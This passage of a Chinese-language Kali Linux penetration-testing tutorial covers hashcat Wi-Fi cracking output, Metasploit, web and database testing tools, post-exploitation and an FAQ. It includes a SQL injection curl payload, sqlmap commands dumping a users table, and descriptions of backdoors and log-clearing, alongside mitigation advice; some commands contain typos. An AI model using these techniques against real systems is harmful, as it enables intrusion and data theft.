
hashcat (v6.0.0) starting...

OpenCL Platform #1: NVIDIA Corporation
======================================
Device #1: GeForce GTX 1080, 2048/8192 MB allocatable, 20MCU
Hashes: 1 hashes; 1  unique salts, 1 unique digests
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
Applicants: 1/1 (100.00%)
Progress... (ETA: 00:00:00)
Speed.Dev.#1.....: 51766 H/s (99.57ms) @ Accel:512 Loops:1024 Thr:1 Vec:8
Successfully cracked the password: mypassword1
```

在本示例中，正在使用 `hashcat` 工具破解 WPA/WPA2 加密的 Wi-Fi 网络的密码。`hashcat` 工具从 `capturefile-01.hccapx` 读取捕获的握手数据，并使用 `wordlist.txt` 中的字典尝试破解密码。输出显示密码已成功恢复，密码为“mypassword1”。输出还显示破解过程是使用 NVIDIA GeForce GTX 1080 GPU 完成的，并以每秒约 51,766 次哈希的速度运行。

进行渗透测试（有时被称为伦理黑客攻击）需要模拟对网络或系统的攻击，以发现任何安全漏洞并评估整体安全态势。以下步骤概述了进行渗透测试的流程：

1. **定义测试范围**：确定将测试哪些系统、应用程序和网络，以及哪些是禁止进入的范围。
2. **收集信息**：收集有关目标系统、应用程序和网络的信息，包括 IP 地址、软件版本和网络配置。
3. **规划攻击**：根据收集的信息，规划攻击场景，并选择将使用的工具和技术。
4. **执行测试**：使用计划好的工具和技术模拟对目标系统、应用程序和网络进行攻击。
5. **分析结果**：评估测试结果，包括发现了哪些漏洞以及它们如何被利用。
6. **报告发现**：准备一份报告记录发现的结果，包括对所发现漏洞的描述、漏洞的影响以及修复建议。
7. **修复漏洞**：根据报告中的建议，实施必要的更改以修复漏洞并提高环境安全性。

使用 `Metasploit`、`Nmap` 和其他开源安全工具进行渗透测试。

以下是在 Kali Linux 中使用 `Metasploit` 框架的示例：

- **启动 Metasploit**：打开终端输入 `msconsole` 启动 Metasploit 框架。
```bash
msconsole
```
- **搜索目标**：使用 `search` 命令搜索目标，例如特定类型的漏洞。
```bash
search
```
- **选择模块**：使用 `use` 命令选择一个用于利用目标的模块。
```bash
use
```
- **配置模块**：使用 `show options` 命令查看可以配置的选项，然后使用 `set` 命令配置选项，例如目标 IP 地址、要使用的负载以及其他必要选项。
```bash
show options
set
```
- **执行模块**：使用 `exploit` 命令执行模块并利用目标。
```bash
exploit
```
- **验证结果**：使用 `sessions` 命令查看是否建立了会话，然后使用 `shell` 命令与目标系统交互。
```bash
sessions
shell
```
- **清理**：使用 `exit` 命令关闭会话并清理利用过程。
```bash
exit
```

伦理黑客必须在获得网络所有者许可并符合所有法律和伦理准则的情况下进行。此外，在进行渗透测试之前，具备知识、技能和工具以避免对测试系统造成损坏。

检测和缓解非法接入点包括：

- **定期监控和审计网络**：定期检查未经授权访问点、监控网络安全设备的日志和告警以及定期进行网络扫描，可以帮助你发现非法接入点。
- **教育用户安全实践知识**：教育用户在连接 Wi-Fi 网络时保持警惕，例如在连接前验证网络名称和密码，防止他们连接非法接入点。
- **实施强访问控制**：为接入点配置强密码并使用 WPA2 加密等技术可以防止未经授权的访问和非法创建。
- **实施无线入侵检测系统 (IDS)**：无线 IDS 可以监控网络异常活动并帮助检测非法接入点。
- **禁用未使用的网络服务**：禁用或移除未使用的服务（如必要的 Wi-Fi 协议）可以缩小攻击面并减少非法接入点的风险。
- **更新软件和固件**：定期更新无线接入点、防火墙和其他网络安全设备到最新的固件和软件版本，有助于防止漏洞被攻击者利用。
- **进行渗透测试**：定期进行渗透测试可以帮助你识别网络中的漏洞，并在攻击者利用之前采取缓解措施。


8\. Web 应用程序渗透测试


Web 应用渗透测试是确保 Web 应用程序安全的关键环节。此类测试的目标是识别 Web 应用程序中的潜在漏洞和安全风险，并评估攻击的潜在影响。

## Web 应用渗透测试工具

### Burp Suite
`Burp Suite` 是一款全面的 Web 应用安全测试工具，提供了广泛的功能，包括 Web 应用扫描、代理拦截和手动测试能力。

使用 `Burp Suite` 执行基础 Web 应用渗透测试的步骤如下：

1. **启动 Burp Suite**：打开 `Burp Suite` 应用并点击 `"Start Burp"` 按钮启动工具。
2. **配置代理**：进入 `Proxy` 标签页并点击 `"Options"` 按钮。在 `Proxy Listener` 部分，点击 `"Add"` 按钮添加新的代理监听器。输入所需的监听地址和端口，然后点击 `"OK"` 按钮。
3. **拦截流量**：在 `Proxy` 标签页中，确保 `"Intercept"` 关被设置为 `"On"`。这将允许你拦截并检查浏览器与目标 Web 应用之间的流量。
4. **扫描目标**：进入 `Scanner` 标签页并点击 `"Start Scan"` 按钮。输入目标 URL 并选择所需的扫描选项。扫描器现在开始分析目标并识别潜在漏洞。
5. **验证漏洞**：扫描完成后，进入 `Scanner` 标签页并选择已识别的漏洞。使用 `"Request"` 和 `"Response"` 标签检查拦截的流量并验证漏洞。
6. **利用漏洞**：如果漏洞通过验证，进入 `Intuder` 标签页并选择合适的攻击类型（例如，暴力破解、模糊测试等）。配置攻击设置并启动攻击以尝试利用该漏洞。
7. **报告发现**：渗透测试完成后，进入 `Reports` 标签页并生成发现结果的报告。该报告应包含发现的漏洞描述、其潜在影响以及修复建议。

### OWASP ZAP
`OWASP Zed Attack Proxy`（简称 `ZAP`）是一款流行的开源 Web 应用安全测试工具，提供自动化扫描、手动测试和脚本能力。

使用 `OWASP ZAP`（开放 Web 应用安全项目 - ZAP）执行基础 Web 应用渗透测试的步骤如下：

1. **启动 OWASP ZAP**：打开 `OWASP ZAP` 应用并点击 `"Start ZAP"` 按钮启动工具。
2. **配置代理**：进入 `Options` 菜单并选择 `Local Proxy`。输入所需的监听地址和端口，然后点击 `"OK"` 按钮。
3. **拦截流量**：在 `"Proxy"` 标签页中，确保 `"Intercept"` 关被设置为 `"On"`。这将允许你拦截并检查浏览器与目标 Web 应用之间的流量。
4. **扫描目标**：进入 `Scan` 菜单并选择 `Active Scan`。输入目标 URL 并选择所需的扫描选项。扫描器现在开始分析目标并识别潜在漏洞。
5. **验证漏洞**：扫描完成后，进入 `Alerts` 标签页并选择已识别的漏洞。使用 `"Request"` 和 `"Response"` 标签检查拦截的流量并验证漏洞。
6. **利用漏洞**：如果漏洞通过验证，进入 `Attack` 菜单并选择合适的攻击类型（例如，暴力破解、模糊测试等）。配置攻击设置并启动攻击以尝试利用该漏洞。
7. **报告发现**：渗透测试完成后，进入 `Reports` 菜单并生成发现结果的报告。该报告应包含发现的漏洞描述、其潜在影响以及修复建议。

### sqlmap
`sqlmap` 是一款用于检测和利用 Web 应用中 SQL 注入漏洞的开源工具。

使用 sqlmap 进行 Web 应用渗透测试：

1. **安装 sqlmap**：通过下载源代码或使用包管理器（如 `apt-get`、`yum` 等）安装 `sqlmap`。
2. **更新包索引**：在终端输入以下命令：
```bash
sudo apt update
```
3. **安装 sqlmap**：输入以下命令安装 `sqlmap`：
```bash
sudo apt install sqlmap
```
4. **验证安装**：输入以下命令验证安装：
```bash
sqlmap -v
```
5. **识别 SQL 注入漏洞**：第一步是识别 Web 应用程序是否容易受 SQL 注入攻击。你可以通过构建特定的 URL 参数和负载来手动测试 SQL 注入漏洞，也可以使用如 `OWASP ZAP` 等工具自动扫描漏洞。
6. **启动 sqlmap**：打开终端并进入 `sqlmap` 安装目录。
7. **指定目标 URL**：使用以下语法在 `sqlmap` 中指定目标 URL：
```bash
sqlmap -u "http://target_url"
```
8. **运行 sqlmap 扫描**：指定目标 URL 后，运行以下命令开始扫描：
```bash
sqlmap -u "http://target_url" --dbs
```
9. **提取数据**：如果发现漏洞，可以通过指定数据库和表名从数据库中提取数据。例如，以下命令将从 "mydb" 数据库的 "users" 表提取数据：
```bash
sqlmap -u "http://target_url" -D mydb -T users --dump
```
10. **报告发现**：数据提取完成后，记录你的发现并提供修复建议至关重要。可以通过书面报告或演示的形式完成。

### w3af
`w3af` 是一个开源 Web 应用攻击和审计框架，提供自动化扫描、手动测试和脚本能力。

1. **安装 w3af**：你可以从其官方网站（`https://w3af.org`）下载最新版本的 `w3af` 并安装到系统上。
2. 打开终端进入 `w3af` 目录。
3. 运行命令启动 `w3af` 控制台：
```bash
./w3af_console
```
4. 通过输入配置目标：
```bash
target
```
5. 输入想要扫描的 Web 应用 URL：
```bash
https://example.com
```
6. 通过输入开始扫描：
```bash
start
```
7. 等待扫描完成，通过输入查看结果：
```bash
view
```
你可以看到发现的漏洞以及修复它们的建议操作。

### Nikto
`Nikto` 是一个 Web 服务器扫描器，可识别 Web 应用中的潜在漏洞和安全风险。

1. 打开终端进入 `Nikto` 目录。
2. 运行以下命令启动扫描：
```bash
perl nikto.pl -h https://example.com
```
`Nikto` 将对目标网站进行全面扫描并在控制台中显示结果。
结果将显示已发现的漏洞以及关于 Web 服务器的其他信息。

## 执行 Web 应用渗透测试的步骤

1. **信息收集**：执行 Web 应用渗透测试的第一步是收集目标 Web 应用程序的信息。这包括正在使用的技术栈、应用程序架构以及任何可用的文档。
2. **扫描**：下一步是使用 `Burp Suite`、`OWASP ZAP` 或 `w3af` 等工具对目标 Web 应用进行自动化扫描。此步的目标是发现应用程序中的任何潜在安全威胁和弱点。
3. **漏洞验证**：一旦识别出潜在漏洞，必须对其进行验证以确保它们确实是可利用的。这可以通过使用 `sqlmap` 工具或手动测试技术手动完成，也可以使用 `Burp Suite` 或 `OWASP ZAP` 等工具自动完成该过程。
4. **漏洞利用**：如果发现漏洞是可以利用的，下一步是尝试利用它们并评估攻击的潜在影响。这可以通过手动操作或使用 `sqlmap` 等工具完成。


# 报告

执行 Web 应用程序渗透测试的最后一步是记录测试结果并向利益相关者提供报告。该报告应包含对发现的漏洞的详细描述、攻击的影响以及修复建议。

Web 应用程序渗透测试是确保 Web 应用程序安全的关键环节。`Kali Linux` 拥有广泛的安全工具，使其成为进行此类测试的理想平台。通过使用 `Burp Suite`、`OWASP ZAP`、`sqlmap`、`w3af` 和 `Nikto` 等工具，并遵循系统化的流程进行 Web 应用程序渗透测试，组织可以很好地理解其 Web 应用程序面临的潜在安全风险，并采取措施缓解这些风险。

可以通过使用以下策略组合来缓解 Web 应用程序攻击。

- **输入验证**：验证所有用户输入，确保其符合预期的格式、长度和数据类型。这有助于防止恶意数据进入应用程序。
- **安全编码实践**：遵守安全编码实践，例如对用户输入进行清理、对敏感数据进行加密以及避免使用硬编码凭据。
- **使用安全措施**：实施如`firewalls`、`SSL 证书`和入侵检测系统等安全措施，以防止和检测攻击。
- **定期软件更新**：定期更新 Web 应用程序及其组件，以修复已知漏洞并提高安全性。
- **漏洞扫描**：定期使用 `w3af` 或 `Nikto` 等工具对 Web 应用程序进行漏洞扫描。
- **员工培训**：教育员工防范钓鱼和社交工程攻击的危险性，并培训他们识别和响应安全事件。
- **应急响应计划**：制定应急响应计划，以便快速响应安全事件并防止其演变成更大的安全漏洞。
- 实施这些策略有助于防止和缓解 Web 应用程序攻击，并提高应用程序的整体安全性。



# 9. 渗透测试

数据库系统是许多组织的关键组件，存储着个人详情、财务信息和机密业务数据等敏感信息。因此，确保数据库系统安全并免受潜在威胁至关重要。评估数据库系统安全性的方法之一是通过数据库渗透测试。

## 什么是数据库渗透测试？

数据库渗透测试是一种安全评估技术，通过模拟对数据库的攻击来发现任何安全风险并评估整体安全态。此类测试的目标是检测数据库中可能被攻击者利用的漏洞，例如过时的软件、不当的配置或未保护的数据。

## 数据库渗透测试的方法：

有几种方法可以用于数据库渗透测试，包括：

### SQL 注入

SQL 注入是一种安全违规，通过 Web 应用程序向数据库中插入恶意代码。此类攻击的目标是获取对存储在数据库中的机密信息的未经授权访问。

#### SQL 注入攻击可能是如何工作的：

1. Web 应用程序允许用户通过在表单中输入搜索词来搜索数据库中的信息。
2. 攻击者在表单中输入恶意的搜索词，旨在向数据库中注入恶意代码。
3. Web 应用程序获取攻击者输入的搜索词，并创建一个`SQL query`来搜索数据库。
4. 攻击者注入的恶意代码与`SQL query` 一起执行，授予攻击者对数据库中存储的机密信息的未经授权访问。
5. 攻击者随后可以从数据库中提取敏感信息，如密码、信用卡号或个人信息。

例如：
```
curl "http://vulnerable-web-app.com/search.php?term=malicious' OR '1'='1"
```

### 缓冲区溢出

缓冲区溢出攻击涉及向数据库发送超过其能够处理的数据，导致数据库崩溃或容易受到攻击。

1. 首先识别一个易受缓冲区溢出攻击的易漏洞程序。
2. 在 `Kali Linux` 中打开终端窗口，使用 `gcc` 命令编译一个利用缓冲区溢出漏洞的程序。

例如：
```bash
gcc -o exploit exploit.c
```

3. 执行编译后的程序以进行缓冲区溢出攻击。

例如：
```bash
./exploit
```

4. 程序将向易漏洞程序发送一个大于缓冲区可处理范围的数据字符串，导致缓冲区溢出。
5. 额外的数据将覆盖程序内存的其他部分，包括程序栈中的返回地址。
6. 攻击者的代码被执行，允许他们获取程序的控制权，并可能访问敏感信息或执行其他恶意操作。

### 身份验证测试

身份验证测试涉及尝试绕过数据库的身份验证过程以获得未经授权的访问。这可以通过暴力破解或使用已知凭据来实现。

身份验证测试的示例：

1. 首先识别系统使用的身份验证机制。这可能是登录表单、单登录系统或其他类型的身份验证方法。
2. 尝试使用各种用户名和密码组合登录系统。这有助于识别系统密码策略中的任何弱点，例如弱密码或易猜的用户名。
3. 尝试通过利用已知漏洞（如`SQL 注入`或跨站脚本 `XSS`）来绕过身份验证机制。
4. 尝试在不登录的情况下访问敏感信息或资源，例如通过操作 URL 参数或利用安全配置错误。
5. 使用自动化工具自动化身份验证测试过程，例如漏洞扫描器或渗透测试框架。
6. 分析身份验证测试的结果，并为改进身份验证机制安全性提供建议。这可能包括实施更强的密码策略、改进输入验证或实施额外的安全控制。

 配置测试

配置测试涉及检查数据库的配置设置，以识别可能导致安全漏洞的错误配置。

配置测试的示例：

1. 首先识别组成系统的组件，如硬件、软件、网络设备和其他。
2. 分析每个组件的配置，包括正在使用的设置、选项和参数。这有助于识别任何可能导致安全风险的错误配置或弱配置。
3. 测试系统的配置以识别任何可能被攻击者利用的漏洞。这可能包括测试开放端口、未修补的软件或弱密码。
4. 使用自动化工具自动化配置测试过程，例如漏洞扫描器或渗透测试框架。
5. 分析配置测试的结果，并为改进系统配置安全性提供建议。这可能包括应用软件补丁、实施更强的密码策略或禁用不必要的服务。
6. 记录配置测试的结果，包括识别的任何漏洞以及改进系统配置安全性的任何建议。

 数据泄露测试

数据泄露测试涉及尝试通过各种方法（如`SQL 注入`或利用配置错误）从数据库中提取敏感数据。


## 数据泄露测试方法示例

首先，识别被视为敏感或机密的数据类型，例如个人信息、财务数据或知识产权。

评估处理敏感数据的系统和流程，包括数据存储、传输和处理。

测试系统是否存在任何潜在的数据泄露通道，例如电子邮件、即时消息或网络应用程序。此过程可以通过手动进行，也可以借助自动化工具的帮助完成。

评估数据传输通道的安全性，例如加密和安全文件传输协议。

分析数据泄露测试的结果，并为提高系统安全性提供建议。这可能包括实施加密、实施访问控制或限制传输到系统外的敏感数据量。

记录数据泄露测试的结果，包括识别出的任何漏洞以及改进系统安全性的建议。

## 数据库渗透测试流程中的步骤

- **信息收集**：数据库渗透测试过程的第一步是收集有关目标数据库的信息，例如数据库类型、版本以及存储在数据库中的数据。
- **漏洞扫描**：下一步是对数据库进行漏洞扫描以识别潜在的弱点。这可以使用 `SQLMap` 等自动化工具或手动测试来完成。
- **漏洞利用**：下一步是尝试利用上一步识别出的漏洞来获取对数据库的未经授权访问。
- **报告**：最后一步是报告渗透测试的发现，并为提高数据库系统的安全性提供建议。

数据库渗透测试是整体安全测试的关键组成部分，可以帮助组织在攻击者利用之前识别其数据库系统中的漏洞。通过实施本章概述的方法和步骤，组织可以提高数据库系统的安全性，保护敏感信息免受潜在威胁。

## 检测与缓解

- 首先对数据库系统进行漏洞评估。可以进行。
- 手动或使用自动化工具识别数据库配置中的任何潜在弱点，例如开放端口、弱密码或未修补的软件。
- 实施强有身份验证机制，例如多因素身份验证或生物识别认证，以防止对数据库的非法访问。
- 实施适当的访问控制，限制谁可以访问数据库以及他们可以执行的操作。这可能包括为用户设置角色权限并使用加密保护敏感数据。
- 定期更新数据库软件和相关应用程序，确保修补任何已知漏洞。
- 监控数据库系统的任何可疑活动，例如未经授权的登录或数据库查询。可以使用数据库审计日志、入侵检测系统或其他安全监控工具完成。
- 建立灾难恢复计划以防数据库泄露，包括恢复数据、通知受影响方以及向适当部门报告事件的程序。
- 定期测试数据库系统的漏洞和弱点，同时使用手动测试方法和自动化工具。这有助于识别可能出现的新漏洞，并确保数据库系统的持续安全。



## 10. 后渗透活动与报告

后渗透活动是指指攻击者在成功攻破系统或网络后采取的行动。这些活动通常聚焦于维持对系统的访问、收集信息以及进一步破坏其他系统或网络。

在成功利用系统或网络后，记录攻击结果并向相关利益相关者适当报告发现至关重要。这有助于防止未来发生类似的攻击，并提高系统或网络的整体安全态势。

以下是后渗透活动和报告可能执行的示例：

首先记录利用过程中采取的步骤，包括使用的工具和技术、受影响的系统和网络以及获得的信息。

在记录利用过程时，务必包含以下信息：

- **使用的工具和技术**：这应该包含用于利用系统或网络的特定工具和技术列表，例如利用应用程序中的漏洞，或使用社会工程策略欺骗用户提供凭据。
- **受影响的系统和网络**：这应该包含被攻破的特定系统和网络列表，以及系统类型及其用途的信息。
- **获得的信息**：这应该包括利用过程中获得的特定信息的描述，例如密码、敏感数据或知识产权。

拥有完整且准确的利用过程记录有助于识别系统或网络安全中的任何弱点，并为未来的调查提供宝贵信息。它还可以用于支持向适当利益相关者报告事件，并支持开发新的安全措施以防止未来发生类似的攻击。

尽可能多收集有关系统或网络的信息，例如系统配置信息、用户账户和敏感数据。

在收集信息时，攻击者可能会使用多种技术，例如：

- **系统配置信息**：这可能包括有关操作系统、软件应用程序、网络配置以及关于系统的其他细节。这些信息可用于识别可以利用以获取进一步访问或提升权限的漏洞或配置错误。
- **用户账户**：这可能包括系统上用户账户的信息，如用户名、密码和其他凭据。这些信息可用于访问其他系统或网络，或为了恶意意目的冒充合法用户。
- **敏感数据**：这可能包括财务数据、个人信息、知识产权或机密业务信息等信息。这些信息可用于实施身份盗窃、财务诈骗或其他恶意活动。

识别可以被攻破的其他系统或网络是后渗透活动的重要部分。此步骤的目标是利用初始攻破获取访问其他系统或网络的权限，并扩大攻击范围。

一旦攻击者获得了对系统或网络的访问并收集了相关信息，他们可能会利用这些信息识别可以被攻破的其他系统或网络。例如，他们可以使用用户账户信息尝试登录其他系统，或者使用网络配置信息识别同一网络上的其他系统。

如果攻击者能够识别出可以被攻破的其他系统或网络，他们可能会重复利用过程。这可能涉及与初始利用时相同的工具和技术，或使用更适用于新目标的新技术。


需要注意的是，在没有适当授权的情况下尝试入侵其他系统或网络是违法且不符合道德的。在此步骤中获得的信息应用于识别漏洞以及提高所涉及系统和网络的整体安全态势。

### 通过安装后门、伪装攻击者存在或使用其他技术规避检测，以维持对系统或网络的访问。

为了维持访问权限，攻击者可能会使用多种技术，例如：

- **安装后门**：这可能涉及在系统或网络中创建一个隐藏的或伪装的入口点，攻击者可以使用其在未来重新访问。这可能涉及修改系统文件、创建新账户或使用其他方法创建秘密入口点。
- **伪装攻击者的存在**：这可能涉及在系统或网络上隐藏攻击者活动的证据，例如清除日志文件、修改时间戳或使用其他技术来隐藏其踪迹。
- **规避检测**：这可能涉及使用技术规避安全系统（如防火墙、入侵检测系统或反病毒软件）的检测。这可能涉及使用加密、混淆或其他技术，使安全系统更难检测攻击者的活动。

需要注意的是，尝试对系统或网络维持未经授权的访问是违法且不符合道德的。在此步骤中获得的信息应仅用于识别漏洞以及提高系统或网络的整体安全态势。

### 将攻击结果报告给相关的利益相关者，包括系统或网络所有者、信息安全团队和任何相关部门。

报告应包含：

- 攻击描述以及所使用的工具和技术。
- 受影响的系统和网络列表。
- 对攻击期间获取信息的描述。
- 关于增强系统或网络整体安全性的建议，包括未来防止类似攻击可以采取的特定步骤。

报告应提交给相关的利益相关者，包括系统或网络所有者、信息安全团队和任何相关部门。这可能包括组织内部的利益相关者、执法部门或监管机构等外部利益相关者，或两者兼有。

需要注意的是，报告安全攻击结果应以负责任和道德的方式进行，并受组织安全政策、程序以及相关法律法规的指导。

为 为提高系统或网络的安全性提供建议是利用后活动的重要部分。此步骤的目标是帮助组织提高其整体安全态势，并防止未来发生类似的攻击。

建议应基于攻击结果，并根据系统或网络的特定情况进行定制。可以考虑的一些通用建议包括：

- **修补或更新软硬件组件**：这可能涉及安装安全补丁、固件更新或其他软件或硬件更新，以修复攻击期间被利用的漏洞。
- **改进访问控制**：这可能涉及实施更强的身份验证机制（例如多因素认证），或根据最小权限原则限制敏感信息的访问。
- **实施安全监控和日志记录**：这可能涉及部署入侵检测系统、安全信息和事件管理 (`SIEM`)解决方案或其他安全监控日志工具，实时检测并响应安全事件。
- **进行定期安全评估和渗透测试**：这可能涉及定期进行安全评估和渗透测试，以识别新漏洞并验证现有漏洞已得到解决。
- **提高意识并培训员工**：这可能包括向员工提供关于安全的重要性以及社会工程和其他类型攻击危险性的培训和教育。

应根据攻击的严重性以及受影响系统和网络的重要性对这些建议进行排序。及时实施这些建议对于降低未来攻击的风险至关重要。

### 记录利用活动的结果并报告是整个安全过程的重要步骤。此类文档应包含：

- 对所执行的利用活动的描述，包括安装后门、收集信息和报告结果。
- 报告发现的摘要，包括受影响的系统和网络、获取的信息以及增强系统或网络整体安全性的建议。
- 对响应报告所采取的行动的描述，包括对系统或网络安全性进行的任何更改、新安全控制的实施或任何后续调查。
- 从攻击中吸取的任何教训记录，包括对攻击向量的见解、使用的工具和技术以及组织安全态势的有效性。

此类文档应存储在安全位置，并应供相关的利益相关者访问。它还应定期审查和更新，以确保其时性和相关性。

记录利用活动的结果并报告有助于创建攻击的永久记录以及减轻其影响所采取的步骤。这些信息可以指导未来的安全工作，提高系统或网络的整体安全态势，并帮助组织未来更有效地应对类似攻击。

结论，`Kali Linux` 是一种用于渗透测试和安全评估的强大工具。为了为了这些目的有效使用 `Kali Linux`，重要的是了解各种工具和技术以及使用它们的最佳实践。

使用 `Kali Linux` 的一些关键实践包括：

- 适当的计划和准备，包括明确了解评估范围以及将测试的系统和网络。
- 进行彻底侦察以收集有关目标系统或网络的信息，并利用这些信息指导工具和技术的选择。
- 为任务采用适当的工具，并花时间理解每个工具的工作原理以及它们能够做什么。
- 记录评估过程中采取的步骤，包括使用的工具和技术、受影响的系统和网络以及获取的信息。
- 以全面、准确的方式报告评估结果，包括提高系统或网络整体安全态势的建议。

通过遵循最佳实践，你可以确保充分利用 `Kali Linux` 的潜力，并使你的安全评估的价值最大化。


## 11. 问答

问：什么是 `Kali Linux`？

答：`Kali Linux` 是一种基于 Debian 的 Linux 发行版，专为数字取证、渗透测试和安全评估设计。

问：`Kali Linux` 的主要特征有哪些？


# Kali Linux 概述

Kali Linux 包含了超过 `600` 预装的安全工具，用于渗透测试、道德黑客攻击和数字取证。它还具有可自定义的界面并支持多种语言。

## 我可以使用 Kali Linux 进行通用计算吗？
答：虽然 Kali Linux 可以用于通用计算，但它主要为安全任务和渗透测试任务而设计。

## Kali Linux 是免费的吗？
答：是的，Kali Linux 是开源软件，可以免费下载。

## Kali Linux 中包含哪些流行工具？
答：Kali Linux 中包含的一些流行工具有 `Nmap`、`Metasploit`、`Aircrack-ng`、`John the Ripper` 和 `Wireshark`。

## 我可以在虚拟机上运行 Kali Linux 吗？
答：是的，Kali Linux 可以安装并运行在虚拟机上，例如 `VirtualBox` 或 `VMware`。这是安全评估的常用做法，因为它允许用户在安全隔离的环境中测试和实验工具。

## Kali Linux 适合初学者吗？
答：虽然 Kali Linux 是安全专业人员的强大工具，但对于初学者来说可能不是最佳选择。它需要一些 Linux 知识和安全概念，而且大量的工具可能会让初接触该领域的人感到无从从。

## 我可以在树莓派上运行 Kali Linux 吗？
答：是的，Kali Linux 可以安装在 `Raspberry Pi` 上，用于对小型网络和 IoT 设备进行渗透测试和安全评估。

## Kali Linux 与 Windows 兼容吗？
答：是的，可以使用虚拟化软件（如 `VirtualBox` 或 `VMware`）在 Windows 上运行 Kali Linux，或者通过 Windows 的 Linux 子系统 (`WSL`)。

## 我可以使用 Kali Linux 进行黑客攻击活动吗？
答：不，将 Kali Linux 或任何其他工具用于恶意目的是违法且不道德的。Kali Linux 中包含的工具仅供安全专业人员出于道德和合法目的使用。

## 系统管理

### 如何更新和升级 Kali Linux？
答：要更新和升级 Kali Linux，请在终端中使用以下命令：

```
sudo apt update
sudo apt upgrade
```

### 如何在 Kali Linux 中安装软件？
答：你可以使用终端和 `apt` 软件包管理器在 Kali Linux 中安装软件。例如，要安装程序 `"example"`，你将使用以下命令：

```bash
sudo apt install example
```

### 如何在 Kali Linux 中访问图形用户界面 (GUI)？
答：要访问 Kali Linux 中的 GUI，你可以在终端中使用 `startx` 命令。

### 如何在 Kali Linux 中更改密码？
答：要更改 Kali Linux 中的密码，请在终端中使用以下命令：

```bash
passwd
```

### 如何在 Kali Linux 中截屏？
答：在 Kali Linux 中截图，你可以使用 `gnome-screenshot` 实用程序或按下 `Print Screen` 键。

### 如何在 Kali Linux 中添加软件源？
答：要在 Kali Linux 中添加软件源，你可以在终端中使用以下命令：

```bash
sudo nano /etc/apt/sources.list
```

### 如何将 Kali Linux 升级到最新版本？
答：要将 Kali Linux 升级到最新版本，你可以在终端中使用以下命令：

```bash
sudo apt update && sudo apt full-upgrade
```

## 安全工具使用

### 如何在 Kali Linux 中 Metasploit Framework？
答：要在 Kali Linux 中使用 Metasploit Framework，你可以在终端中启动 `msfconsole` 命令。这将启动 Metasploit Framework 控制台，你可以在其中运行各种命令来执行安全测试。

### 如何在 Kali Linux 中进行端口扫描？
答：要在 Kali Linux 中进行端口扫描，你可以使用 `nmap` 实用程序。例如，要扫描目标 IP 地址 `"x.x.x.x"`，你将使用以下命令：

```bash
nmap x.x.x.x
```

### 如何在 Kali Linux 中进行漏洞扫描？
答：要在 Kali Linux 中进行漏洞扫描，你可以使用 `OpenVAS` 实用程序。你可以在终端中使用 `openvas-start` 命令启动 OpenVAS 控制台。

### 如何在 Kali Linux 中破解密码？
答：要在 Kali Linux 中破解密码，你可以使用 `John the Ripper` 或 `Hashcat` 等多种工具。你需要获取密码哈希值，然后使用适当的工具进行密码破解。

### 如何在 Kali Linux 中进行 Web 应用测试？
答：要在 Kali Linux 中进行 Web 应用测试，你可以使用 `OWASP ZAP` 或 `sqlmap` 等工具。这些工具可以用于识别和利用 Web 应用程序中的漏洞。

## 高级与对比

### Kali Linux 和其他 Linux 发行版有什么区别？
答：Kali Linux 是一种专门为渗透测试和安全研究设计的发行版。它预装了广泛的安全和取证工具，使得安全专业人员更容易执行各种任务。

### 如何在 Kali Linux 中安装新工具？
答：要在 Kali Linux 中安装新工具，你可以使用 `apt` 软件包管理器。例如，要安装工具 `"tool name"`，你可以在终端中使用以下命令：

```bash
sudo apt install toolname
```

### 我可以使用 Kali Linux 进行网页浏览或办公工作等日常任务吗？
答：是的，Kali Linux 可以用于浏览网页和办公工作等日常任务。但请记住，Kali Linux 是为安全专业人员设计的，因此某些工具可能不像其他发行版那样用户友好。

### 如何在 Kali Linux 中添加新用户？
答：要在 Kali Linux 中添加新用户，可以使用以下命令：

```bash
sudo adduser username
```

### 如何在 Kali Linux 中更改 root 密码？
答：要更改 Kali Linux 中的 root 密码，可以使用以下命令：

```bash
sudo passwd root
```

### 如何在 Kali Linux 中安装图形界面？
答：要在 Kali Linux 中安装图形界面，可以使用以下命令：

```bash
sudo apt install kali-desktop-gnome
```

### 如何更改 Kali Linux 的默认 shell？
答：要更改 Kali Linux 的默认 shell，可以使用命令：

```bash
chsh -s /bin/bash
```

### 我可以在 Kali Linux 中安装其他 Linux 发行版吗？
答：是的，可以通过虚拟机或双启动在 Kali Linux 中安装其他 Linux。

### 如何检查我运行的 Kali Linux 版本？
答：要检查运行的 Kali Linux 版本，可以使用命令：

```bash
lsb_release -a
```

### 如何在 Kali Linux 中连接网络？
答：可以使用 Network Manager 连接网络。你也可以通过命令行使用以下命令连接 Wi-Fi：

```bash
sudo iwconfig
sudo iwlist scan
sudo iwconfig wlan0 essid "network name" key "network password"
sudo dhclient wlan0
```

### 如何在 Kali Linux 中截屏（命令行）？
答：在 Kali Linux 中截图，可以使用默认安装的 Gnome Screenshot 工具。你也可以使用以下命令：

```bash
import -window root screenshot.png
```

### 如何验证 Kali Linux 服务的状态？
答：要检查 Kali Linux 服务的状态，可以使用终端和 `systemctl` 命令。例如，检查 `ssh` 服务的状态可以使用：

```
systemctl status ssh
```

### 如何在 Kali Linux 中启用或禁用服务？
答：要在 Kali Linux 中启用或禁用服务，可以使用终端和 `systemctl` 命令。例如，启用 `ssh` 服务可以使用：

```bash
sudo systemctl enable ssh
```

禁用 `ssh` 服务可以使用：

```bash
sudo systemctl disable ssh
```


```bash
sudo mount /dev/sdb1 /mnt/newdisk
```

## 如何在 Kali Linux 上加密磁盘？

答：在 Kali Linux 上加密磁盘，你可以使用 `cryptsetup` 工具。加密过程可能会根据具体需求而异，但使用 `cryptsetup` 工具加密磁盘的基本示例如下：

```bash
sudo cryptsetup luksFormat /dev/sdb1
sudo cryptsetup luksOpen /dev/sdb1 encrypted_disk
sudo mkfs.ext4 /dev/mapper/encrypted_disk
sudo mount /dev/mapper/encrypted_disk /mnt/encrypted_disk
```

## 黑客类型与与安全相关的角色

### 什么是白帽黑客？
答：`白帽黑客`是一种网络安全专业人员，他们利用黑客技术用于防御目的，例如向组织识别并报告安全漏洞以便进行修复。`白帽黑客`遵循伦理准则，不会对其正在测试的系统或网络造成伤害。

### 什么是黑帽黑客？
答：`黑帽黑客`是恶意黑客，他们将技能用于非法或不符合道德的目的，例如窃取敏感信息、安装恶意软件或破坏服务。`黑帽黑客`不遵循伦理准则，通常受金钱或个人满足感驱动。

### 什么是灰帽黑客？
